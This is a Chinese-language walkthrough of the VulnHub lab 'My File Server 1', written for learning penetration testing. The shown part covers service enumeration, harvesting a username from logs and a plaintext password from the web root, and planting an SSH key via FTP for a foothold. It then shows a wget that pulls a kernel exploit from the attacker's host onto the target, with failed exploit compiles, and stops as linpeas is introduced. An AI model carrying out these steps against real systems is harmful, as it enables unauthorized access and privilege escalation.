# 前言

### 靶场介绍

My File Server 1 是一台以文件服务为主题的入门级 VulnHub 靶机，开放了多个网络服务——FTP、SMB、NFS、HTTP——模拟了一个典型的小型文件共享服务器环境。靶机的攻击面较广，信息收集阶段就能获取到大量有效线索，关键路径是通过多个服务之间的信息交叉比对，最终拿到可用凭证，再利用内核漏洞完成提权。

### 靶场信息

**靶机 IP**：192.168.200.158

**靶机官方 URL**：[https://www.vulnhub.com/entry/my-file-server-1,432/](https://www.vulnhub.com/entry/my-file-server-1,432/)

**下载（镜像）**：[https://download.vulnhub.com/myfileserver/My_file_server_1.ova](https://download.vulnhub.com/myfileserver/My_file_server_1.ova)

### 涉及工具

- `nmap` — 端口扫描 / 漏洞扫描
- `ftp` — FTP 匿名及凭据登录
- `smbclient` — SMB 枚举与文件下载
- `ssh-keygen` — 本地生成 SSH 密钥对
- `searchsploit` — 本地 EXP 搜索
- `linpeas.sh` — 本地提权信息自动化收集
- `gcc` — 靶机本地 EXP 编译

---

# 1. 信息收集

## 1.1 Nmap 信息扫描

### 端口扫描

```bash
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
2121/tcp  open  ccproxy-ftp
20048/tcp open  mountd
```

开放的服务数量明显多于普通 Web 靶机。`rpcbind` 的出现说明有 RPC 服务在运行，后续有必要补一次 UDP 扫描确认是否有额外端口暴露。重点关注对象：FTP（21/2121 双端口）、SMB（445）、NFS（2049）。

> 21,22,80,111,445,2049,2121,20048
### 详细信息

```bash
Nmap scan report for 192.168.200.158
Host is up (0.00032s latency).

PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.200.142
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    3 0        0              16 Feb 19  2020 pub [NSE: writeable]
22/tcp    open  ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 75:fa:37:d1:62:4a:15:87:7e:21:83:b9:2f:ff:04:93 (RSA)
|   256 b8:db:2c:ca:e2:70:c3:eb:9a:a8:cc:0e:a2:1c:68:6b (ECDSA)
|_  256 66:a3:1b:55:ca:c2:51:84:41:21:7f:77:40:45:d4:9f (ED25519)
80/tcp    open  http        Apache httpd 2.4.6 ((CentOS))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS)
|_http-title: My File Server
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100003  3,4         2049/udp   nfs
|   100003  3,4         2049/udp6  nfs
|   100005  1,2,3      20048/tcp   mountd
|   100005  1,2,3      20048/tcp6  mountd
|   100005  1,2,3      20048/udp   mountd
|   100005  1,2,3      20048/udp6  mountd
|   100021  1,3,4      43254/tcp6  nlockmgr
|   100021  1,3,4      45779/udp6  nlockmgr
|   100021  1,3,4      46152/udp   nlockmgr
|   100021  1,3,4      47088/tcp   nlockmgr
|   100024  1          36116/tcp   status
|   100024  1          36232/tcp6  status
|   100024  1          51332/udp6  status
|   100024  1          60476/udp   status
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
445/tcp   open  netbios-ssn Samba smbd 4.9.1 (workgroup: SAMBA)
2049/tcp  open  nfs_acl     3 (RPC #100227)
2121/tcp  open  ftp         ProFTPD 1.3.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: ERROR
20048/tcp open  mountd      1-3 (RPC #100005)
MAC Address: 00:0C:29:C1:3D:A9 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|storage-misc|router
Running (JUST GUESSING): Linux 2.6.X|3.X|4.X|5.X (97%), Synology DiskStation Manager 5.X (94%), MikroTik RouterOS 7.X (91%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/a:synology:diskstation_manager:5.2 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 cpe:/o:linux:linux_kernel:6.0
Aggressive OS guesses: Linux 2.6.32 - 3.13 (97%), Linux 3.4 - 3.10 (97%), Linux 2.6.32 - 3.10 (97%), Linux 2.6.39 (97%), Linux 3.10 (95%), Synology DiskStation Manager 5.2-5644 (94%), Linux 2.6.32 (94%), Linux 2.6.32 - 3.5 (92%), Linux 3.2 - 3.16 (91%), Linux 3.2 - 3.8 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: Host: FILESERVER; OS: Unix

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.1)
|   Computer name: localhost
|   NetBIOS computer name: FILESERVER\x00
|   Domain name: \x00
|   FQDN: localhost
|_  System time: 2026-05-07T15:46:20+05:30
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-05-07T10:16:18
|_  start_date: N/A
|_clock-skew: mean: 6h09m56s, deviation: 3h10m29s, median: 7h59m55s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

几个关键信息直接从详细扫描中读出：

- FTP（21 端口，vsftpd）**允许匿名登录**，且 `/pub` 目录对所有人可写
- FTP（2121 端口，ProFTPD 1.3.5）同样允许匿名登录
- SMB 签名未启用（`message_signing: disabled`），认证级别为 user 级

### 漏洞扫描

```bash
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-trace: TRACE is enabled
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum: 
|_  /icons/: Potentially interesting folder w/ directory listing
111/tcp   open  rpcbind
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
2121/tcp  open  ccproxy-ftp
20048/tcp open  mountd
MAC Address: 00:0C:29:C1:3D:A9 (VMware)

Host script results:
| smb-vuln-regsvc-dos: 
|   VULNERABLE:
|   Service regsvc in Microsoft Windows systems vulnerable to denial of service
|     State: VULNERABLE
|       The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
|       pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
|       while working on smb-enum-sessions.
|_          
|_smb-vuln-ms10-061: false
|_smb-vuln-ms10-054: false
```

SMB 漏洞扫描结果均无直接可利用项，HTTP 层面也未发现明显注入点。漏洞扫描的价值在此阶段较低，重心转向服务枚举。

---
## 1.2 FTP 探测

在前期 nmap 扫描阶段，发现目标开放了 FTP 服务，且**允许匿名用户登录**。匿名登录后，可以在 `/pub/log` 目录下发现一批 Linux 系统日志文件。由于服务器权限限制，并非所有文件均可下载成功。

登录 FTP 并批量下载文件的操作如下：

```bash
ftp 192.168.200.158
# 用户名：anonymous，密码回车跳过
cd /pub/log
binary
prompt
mget *
```



> ftp文件服务器中存放的应该是一整套linux的日志文件，后续我应该需要要对这些日志文件进行日志内容的分析。不过，几个关键日志文件由于权限限制无法下载，因此暂时搁置日志分析，优先继续探测其他服务。([Linux日志分析教程](https://bypass007.github.io/Emergency-Response-Notes/LogAnalysis/%E7%AC%AC2%E7%AF%87%EF%BC%9ALinux%E6%97%A5%E5%BF%97%E5%88%86%E6%9E%90.html))

目标机同时在 **2121 端口**也开放了 FTP 服务，尝试访问：

```bash
ftp 192.168.200.158 2121
```

登录后发现目录结构与 21 端口完全相同，下载权限限制也一致，无法获取更多内容。

## 1.3 SMB 探测

#### 枚举共享目录

使用 `smbclient` 枚举目标机的 SMB 共享：

```bash
smbclient -L //192.168.200.158 -N
```

输出结果显示存在以下共享：



通过匿名登录 `smbdata` 共享目录，发现其中存放的文件与 FTP `/pub/log` 完全一致。尝试下载文件，神奇的是 **SMB 没有权限限制，可以将所有文件完整下载**：

```bash
smbclient //192.168.200.158/smbdata -N
smb: \> prompt
smb: \> mget *
```

成功下载的关键文件包括：`secure`、`sshd_config`、`wtmp`、`lastlog`、`messages` 等。



---
#### 日志文件分析

拿到完整日志包后，按信息价值优先级逐个分析。
##### 分析 secure

`secure` 是 CentOS/RHEL 系统的认证日志，记录所有登录尝试、用户创建和密码修改事件，是提取用户名线索的首选来源。提取其中的关键记录：

```bash
grep "useradd\|passwd\|Accepted\|Invalid user" secure
```

发现如下关键条目：

```
Feb 18 17:16:39 localhost useradd[2389]: new group: name=smbuser, GID=1000
Feb 18 17:16:39 localhost useradd[2389]: new user: name=smbuser, UID=1000, GID=1000, home=/home/smbuser, shell=/bin/bash
Feb 18 17:17:09 localhost passwd: pam_unix(passwd:chauthtok): password changed for smbuser
```

> 日志明确显示系统创建了一个名为 `smbuser` 的用户，并随后修改了该用户的密码。这为后续的凭证尝试提供了重要的用户名线索。（ `smbuser:chauthtok`）

如需系统性地从日志中提取所有出现过的用户名，可以用以下方式整合多个来源：

```bash
# 从 secure 提取
grep -oP "(?<=for )\w+" secure | sort -u

# 从登录历史提取（wtmp/btmp 是二进制文件，需用专用命令读取）
last -f wtmp | awk '{print $1}' | sort -u
lastb -f btmp | awk '{print $1}' | sort -u
```

`xferlog`（FTP 传输日志）中还发现了一条有趣记录，显示有人曾通过 FTP 传输过 `/pub/passwd` 文件。值得回头确认该文件是否还在服务器上。

---
##### 分析 sshd_config

下载到的 `sshd_config` 中有几个值得关注的配置：

```
PermitRootLogin yes          # root 账户允许 SSH 登录
PasswordAuthentication no    # 但密码登录已被禁用
```

这意味着 SSH **只接受密钥认证**，密码直接登录的路线行不通。

```bash
ssh root@192.168.200.158
# root@192.168.200.158: Permission denied (publickey,gssapi-keyex,gssapi-with-mic).
```

结果符合预期，密码认证被拒绝。那么接下来的目标，是**找到或写入一个可用的 SSH 密钥**。



---
## 1.4 Web 探测

### 目录扫描




通过目录扫描， 发现了一个 `/readme.txt` 文件。

```
My Password is
rootroot1
```

>这是一个明文存储的密码。结合此前从日志中获取的用户名 `smbuser`，以及之前无法访问的 `smbuser` 共享目录，下一步可以尝试用该密码访问 SMB 的 `smbuser` 目录，或在其他服务上进行凭证验证。

----

至此，信息收集阶段基本完成。手头线索汇总：
- 用户名：`smbuser`（来自 secure 日志）
- 密码：`rootroot1`（来自 Web 目录 readme.txt）
- SSH 仅支持密钥认证（来自 sshd_config）
- NFS 服务开放（列出文件共享名是smbdata，与之前探测的smb相同）
---
# 2. 权限立足

### 2.1 凭证尝试

完成信息收集后，手头已有用户名 `smbuser` 和密码 `rootroot1`，下一步尝试用这组凭证打通各个服务。

首先尝试 SMB 的 `smbdata` 共享目录，依次测试了以下几个组合：

```bash
smbclient //192.168.200.158/smbdata -U smbuser
# 尝试密码：chauthtok
# 尝试密码：rootroot1
# 尝试密码：rootroot1（用户 root）
```

三组均以失败告终。此时回想起 FTP 服务还没有用该凭证尝试过，于是转向 FTP。


### 2.2 FTP 登录

使用 `smbuser:rootroot1` 登录 FTP，成功：

```bash
ftp 192.168.200.158
# Name: smbuser
# Password: rootroot1

ftp> pwd
# Remote directory: /home/smbuser
```

成功以 `smbuser` 身份登录，当前目录落在该用户的家目录 `/home/smbuser`。这意味着我们可以通过 FTP 向该用户的家目录**写入文件**，为 SSH 密钥登录创造条件。



### 2.3 写入 SSH 公钥 GetShell

由于前面分析 `sshd_config` 已知 SSH 支持公钥认证，且 `smbuser` 的家目录可写，思路很清晰：**在本地生成密钥对，通过 FTP 将公钥上传到目标机的 `~/.ssh/authorized_keys`，再用私钥 SSH 登录。**

**第一步：生成密钥对**

```bash
sudo ssh-keygen -f myfileserver
```

```
-rw------- 1 root root 399 May  7 01:33 myfileserver        # 私钥
-rw-r--r-- 1 root root  91 May  7 01:33 myfileserver.pub    # 公钥
```

**第二步：通过 FTP 上传公钥**

```bash
ftp 192.168.200.158
# 登录 smbuser:rootroot1

ftp> mkdir .ssh
ftp> cd .ssh
ftp> put myfileserver.pub authorized_keys
```



**第三步：SSH 私钥登录**

```bash
sudo ssh -i myfileserver smbuser@192.168.200.158
```

成功获取 `smbuser` 用户的 Shell，完成初始立足。




**小结**：SMB 的凭证尝试均失败，但 FTP 服务接受了同一套凭证，且 FTP 对应的是用户家目录，结合 SSH 公钥认证机制，最终通过「上传公钥→私钥登录」的方式完成 GetShell。

---
# 3. 提权（内核提权详解）

## 3.1 基础信息收集

登录靶机后，首先确认当前用户身份和所在目录，并查看 home 目录下的文件结构：

```bash
[smbuser@fileserver ~]$ pwd
/home/smbuser
[smbuser@fileserver ~]$ ls -liah
total 16K
67585741 drwx------  3 smbuser smbuser  90 May  7 19:11 .
33554618 drwxr-xr-x. 3 root    root     20 Feb 19  2020 ..
67300683 -rw-------  1 smbuser smbuser  39 May  7 19:21 .bash_history
67585742 -rw-r--r--  1 smbuser smbuser  18 Mar  6  2015 .bash_logout
67667769 -rw-r--r--  1 smbuser smbuser 193 Mar  6  2015 .bash_profile
67680642 -rw-r--r--  1 smbuser smbuser 231 Mar  6  2015 .bashrc
  303488 drwxr-xr-x  2 smbuser smbuser  28 May  7 19:12 .ssh
```

查看当前内核版本：

```bash

[smbuser@fileserver ~]$ uname -a
Linux fileserver 3.10.0-229.el7.x86_64 #1 SMP Fri Mar 6 11:36:42 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
[smbuser@fileserver ~]$ 
```

>内核版本为 **3.10.0-229**，发行日期为 2015 年，属于较老版本，存在内核漏洞利用的可能性。

---

## 3.2 提权信息收集

sudo 权限检查

```bash
[smbuser@fileserver ~]$ sudo -l
[sudo] password for smbuser: 
Sorry, user smbuser may not run sudo on fileserver.
```

当前用户 `smbuser` 无任何 sudo 权限，该路径不可用。

计划任务检查

```bash
[smbuser@fileserver ~]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root
# ...（无自定义任务）
```

`/etc/crontab` 中没有可利用的计划任务。

SUID 文件枚举

```bash
[smbuser@fileserver ~]$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/su
/usr/bin/umount
/usr/bin/pkexec
/usr/bin/crontab
/usr/bin/sudo
/usr/bin/staprun
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

枚举到的 SUID 文件均为系统标准程序，没有明显的可利用点。sudo、crontab 等提权思路均已排除，转向**内核漏洞利用**方向。

---

## 3.3 内核版本确认与漏洞搜索

使用 searchsploit 搜索该内核版本下已知的提权漏洞：

```bash
searchsploit linux kernel 3.10
```

结果过多，缩小范围只看提权类漏洞：

```bash
searchsploit linux kernel 3.10 | grep 'Privilege Escalation'
```



---
## 3.4 尝试 EXP：50135.c（失败）

首先尝试 CVE 编号对应的 Netfilter 本地提权漏洞：

> `Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privilege Escalation' | linux/local/50135.c`

将 exp 下载至靶机 `/tmp` 目录后尝试编译：

```bash
[smbuser@fileserver tmp]$ wget 'http://192.168.200.142:8081/50135.c'
[smbuser@fileserver tmp]$ gcc 50135.c -o 50135
50135.c:247:57: error: 'MSG_COPY' undeclared (first use in this function)
50135.c:264:3: error: 'for' loop initial declarations are only allowed in C99 mode
...
```

继续尝试其他 exp。由于我们是新手，没有能力去修改exp编译的时候到底出了什么问题。不过在这个阶段，我们需要多尝试，积累经验。

---
## 3.5 尝试 EXP：45516.c（失败）

```bash
[smbuser@fileserver tmp]$ gcc 45516.c -o 45516
45516.c:276:1: error: conflicting types for ‘main’
 main(const int argc, const char * const * const argv, const char * const * const envp)
 ^
45516.c:50:1: note: previous definition of ‘main’ was here
 main(void)
 ^
45516.c: In function ‘main’:
45516.c:283:0: warning: "LLP" redefined [enabled by default]
     #define LLP "LD_LIBRARY_PATH"
 ^
45516.c:59:0: note: this is the location of the previous definition
     #define LLP "LD_LIBRARY_PATH=."
 ^
```

同样编译失败，exp 中存在重复定义 `main` 函数和宏重定义等问题，暂无能力修复，继续寻找其他路径。

---
## 3.6 使用 linpeas.sh 辅助漏洞发现

手动尝试两个 exp 均告失败，引入自动化工具 `linpeas.sh` 进行全面的本地提权信息收集。在 Kali 上定位工具路径：

```
┌──(kali㉿kali)-[~/vulnhub/MyFileServer-1]
└─$ find / -name linpeas.sh 2>/dev/null       
/usr/share/peass/linpeas/linpeas.sh
```

将脚本传至靶机并执行，重点关注 **Linux Exploit Suggester** 部分的输出：

